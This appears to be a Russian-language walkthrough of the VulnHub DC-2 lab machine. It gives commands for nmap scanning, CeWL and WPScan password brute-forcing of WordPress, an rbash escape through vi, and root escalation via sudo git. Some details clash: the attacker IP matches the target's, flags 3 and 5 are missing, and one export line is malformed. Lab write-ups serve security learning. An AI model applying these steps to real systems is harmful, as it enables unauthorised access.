# VulnHub: DC-2 Machine Walkthrough

> **Author:** mapanit
> **Date:** 10.06.2026
> **Target IP:** `192.168.0.113`
> **Attacker IP:** `192.168.0.122`
> **Difficulty:** Beginner
> **Flags:** 5/5

---

## Шаг 1: Определяем целевую машину

```bash
nmap 192.168.0.1/24
```



Виртуальная машина DC-2 обнаружена по IP `192.168.0.122`.

## Шаг 2: Сканирование цели

```bash
nmap -sV -p- -Pn 192.168.0.122
```



- `-sV` — определение версии службы
- `-p-` — сканирование всех портов
- `-Pn` — пропуск проверки хоста через ping

```bash
nmap -A -p- 192.168.0.122
```



- `-A` — агрессивное сканирование
- `-p-` — сканирование всех портов

Открыты два порта: **HTTP 80** и **SSH 7744**.

## Шаг 3: Переходим на целевой сайт

Поскольку HTTP открыт, переходим по адресу:

```
http://192.168.0.122
```



Первый флаг получен на главной странице DC-2.

**Flag 1:** `More passwords is always better`

## Шаг 4: Использование CeWL для генерации словаря паролей

```bash
cewl http://dc-2 > pass.txt
```

CeWL генерирует список слов из текста страниц, заголовков и ссылок сайта. Результат сохранён в `pass.txt`.

## Шаг 5: Перечисление пользователей WordPress через WPScan





Обнаружены три имени пользователя: `admin`, `jerry`, `tom`. Есть словарь паролей (`pass.txt`, сгенерированный CeWL) и список имён пользователей WordPress (`user.txt`).

## Шаг 6: Перебор паролей пользователей

```bash
wpscan --url http://dc-2 -U user.txt -P pass.txt
```



Получены пароли `jerry` и `tom`. Выполнен вход в WordPress с учётными данными Jerry.





Обнаружен **Flag 2**.

## Шаг 7: Эксплуатация доступа пользователя tom

Вход по SSH на порту `7744` с учётными данными `tom`:

```bash
ssh tom@192.168.0.122 -p 7744
```







Обнаружено, что оболочка пользователя — **rbash** (ограниченная оболочка bash). Для выхода за рамки ограничения использован текстовый редактор `vi` (см. [GTFOBins: vi](https://gtfobins.github.io/gtfobins/vi/) — там описаны разные способы обхода ограничений rbash).

```vi
vi
:set shell=/bin/bash
:shell
```

После выхода из ограниченной оболочки выставлены переменные окружения, чтобы команды Linux выполнялись корректно:

```bash
export SHELL=/bin/bash$SHELL
export PATH=/bin:/usr/bin:$PATH
```



## Шаг 8: Находим Flag 4 у пользователя jerry

Согласно подсказке, пользователь сменён с `tom` на `jerry`, и в его домашнем каталоге найден четвёртый флаг.



## Шаг 9: Повышение привилегий

Проверка разрешённых sudo-команд:

```bash
sudo -l
```



Обнаружено, что `git` можно запускать с правами root без ввода пароля. Через пейджер git (`!bash`) получена root-оболочка:

```bash
sudo git help config
```



В пейджере:

```
!bash
```

Получены права **root**.



---

*Готово.*
